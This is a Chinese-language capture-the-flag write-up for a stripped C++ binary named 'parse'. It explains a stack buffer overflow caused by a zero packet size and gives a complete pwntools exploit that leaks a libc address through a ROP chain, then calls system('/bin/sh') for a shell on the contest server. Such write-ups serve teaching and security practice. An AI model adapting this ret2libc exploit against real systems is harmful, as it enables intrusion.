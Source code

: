 # parse 

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.16|

## 解题思路

剥了符号的C++题，程序通过`getline`来获取输入，可以输入`\0`字符；
之后程序把输入的字符串复制到栈上，开头有一个签名，然后跟一个包的大小，
可以写为0，这样在构建包对象时`size`就会变成字符串的大小+0x20，可以超过0xff

当输入的长度为0x216时会覆盖到栈上的一个标志，之后可以利用栈溢出

```c
void copyToBuf(Packet *packet,void *src)
{
    undefined buf [256];
    
    std::__cxx11::basic_string<>::c_str(&packet->content);
    memcpy(buf,src,(ulong)(uint)packet->size);
    return;
}
```

设置标志后就会执行上面的函数，然后打rop回到`main`函数再来一次栈溢出就可以

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './parse'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('10.10.26.199', 27370)
        libc = ELF('./libc-2.31.so')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address
    main = 0x4014e1

    def mkPacket(rop: bytes) -> bytes:
        head = p32(0x12345678) + p32(0)
        return (head + b'0'*0x108 + rop).ljust(0x200) + b'0'*16

    sh.sendline(mkPacket(p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main)))

    sh.recvuntil(b'....\n')
    libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    
    sh.sendline(mkPacket(p64(rdi) + p64(next(libc.search(b'/bin/sh'))) +
                         p64(ret) + p64(libc.symbols['system'])))

    sh.clean()
    sh.interactive()
```

> 环境给了个静态flag，结果显示提交错误，最后换成了动态flag才成
